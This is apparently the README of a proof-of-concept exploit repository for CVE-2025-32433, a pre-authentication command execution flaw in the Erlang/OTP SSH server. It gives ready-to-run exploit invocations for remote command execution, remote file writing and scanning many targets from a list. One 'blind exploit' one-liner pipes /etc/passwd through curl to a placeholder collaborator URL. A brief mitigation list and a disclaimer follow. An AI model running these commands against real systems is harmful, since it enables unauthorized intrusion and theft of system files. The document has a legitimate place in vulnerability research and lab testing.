

# CVE-2025-32433: Erlang SSH Server Pre-Authentication Command Execution



## Overview
This repository contains a proof-of-concept (PoC) for CVE-2025-32433, a vulnerability in the Erlang SSH server implementation that allows for pre-authentication command execution. The vulnerability affects Erlang/OTP versions 26.2.5.10 and potentially earlier versions.

## Technical Details
The vulnerability exists in the Erlang SSH server implementation, specifically in the handling of SSH connections and authentication mechanisms. The server accepts and processes SSH_MSG_CHANNEL_REQUEST messages before authentication is completed, allowing for arbitrary command execution.

### Affected Versions
- Erlang/OTP 26.2.5.10
- Potentially earlier versions

### Vulnerability Type
- Pre-authentication Command Execution
- CWE-306: Missing Authentication for Critical Function

## Setup Instructions

### Prerequisites
- 🐍 Python 3.x
- 🐳 Docker
- 🐳 Docker Compose

### Building the Vulnerable Environment
```bash
# Clone the repository
git clone https://github.com/Vip3r-MC/VulnVault.git
cd CVE-2025-32433

# Build and start the vulnerable server
docker-compose up --build
```

The vulnerable SSH server will be accessible on port 2222.

## Testing the Vulnerability

### Using the Python Exploit
Use the CVE-2025-32433.py script to test or exploit the SSH vulnerability:

```bash
python3 CVE-2025-32433.py -H <host> [-p <port>] [-t <timeout>] [-v] [-T <targets_file>] [-c <command> | -f --path <path> --content <content>]
```

Example Usage:
- **Scan a single host on default port (2222):**
```bash
python3 CVE-2025-32433.py -H 192.168.1.10
```

- **Specify a different SSH port (e.g., 2022):**
```bash
python3 CVE-2025-32433.py -H 192.168.1.10 -p 2022
```

- Run a custom command:
```bash
python3 CVE-2025-32433.py -H 192.168.1.10 -c "whoami"
```

- **Write a file to a remote path with custom content:**
```bash
python3 CVE-2025-32433.py -H 192.168.1.10 -f --path /tmp/pwned.txt --content "exploit successful"
```

- **Blind Exploit (command below):**
This blind exploit example demonstrates a remote code execution that sends `/etc/passwd` to a remote server via `curl`. The command captures the contents of `/etc/passwd` and sends it as a POST request to a collaborator URL.
```bash
python3 CVE-2025-32433.py -c "cat /etc/passwd | tee /dev/stderr | curl -X POST https://<collaborator-url>/exploit --data-binary @-" -H 127.0.0.1
```

- **Scan multiple targets from a list:**
```bash
python3 CVE-2025-32433.py -T targets.txt
```

- **Verbose output for debugging:**
```bash
python3 CVE-2025-32433.py -H 192.168.1.10 -v
```

### Command Line Options
- `-H, --host`: Target host IP or domain (default: localhost)
- `-p, --port`: Target SSH port (default: 2222)
- `-t, --timeout`: Connection timeout in seconds (default: 5)
- `-T, --targets`: File containing list of targets (one per line, format: host[:port]).
- `-v, --verbose`: Enable verbose output
- `-c, --command`: Custom command to execute
- `-f, --file`: Enable file writing mode.
- `--path`: Path on target to write the file (default: /test.txt).
- `--content`: Content to write into the file (default: pwned).

## Expected Behavior
- The SSH server should accept connection attempts
- The server will process commands before authentication
- All commands will be executed with the privileges of the Erlang process
- The server will respond with command output or error messages

## Mitigation
- Update to the latest version of Erlang/OTP
- Implement proper authentication checks before processing commands
- Restrict SSH access to trusted networks only
- Monitor for unauthorized access attempts

## Disclaimer
> [!CAUTION]
> This PoC is provided for educational and research purposes only. Use it responsibly and only in controlled environments. The authors are not responsible for any misuse or damage caused by this code.

## References
- [CVE-2025-32433 Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-32433)
- [Erlang/OTP Security Advisory](https://www.erlang.org/security)
- [Original PoC](https://platformsecurity.com/blog/CVE-2025-32433-poc)
